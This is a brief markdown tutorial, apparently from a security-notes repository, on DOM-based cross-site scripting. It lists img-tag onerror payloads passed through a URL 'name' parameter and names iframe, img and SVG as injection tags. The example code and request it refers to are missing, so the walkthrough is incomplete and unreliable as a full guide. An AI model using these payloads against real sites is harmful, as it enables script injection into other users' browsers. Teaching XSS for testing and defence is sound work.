



**DOM** (Document Object Model) is the object built by the web browser upon parsing the web page content provided by the server.

This object makes it easy to navigate through the different HTML tags

It is important to note that this attack does not require any interaction with the server. The following code can be inserted in the **&lt;HEAD>** of a local html file (*test.html* for example)

**Request this file in the following way:**

This will print out on screen the user input: *Armando*

&nbsp;

# Payloads Examples

<pre>test.html?name=&ltimg src="not_found_source" onerror="alert('XSS')" /> </pre>

**or**

<pre>"&gt&ltimg src="not_found_source" onerror="alert('XSS')" /> </pre>

**or**

<pre>&ltimg src="not_found_source" onerror="alert('XSS')" /> </pre>
&nbsp;

# Tags to Inject

### **IFrame**
### **Img**
### **SVG**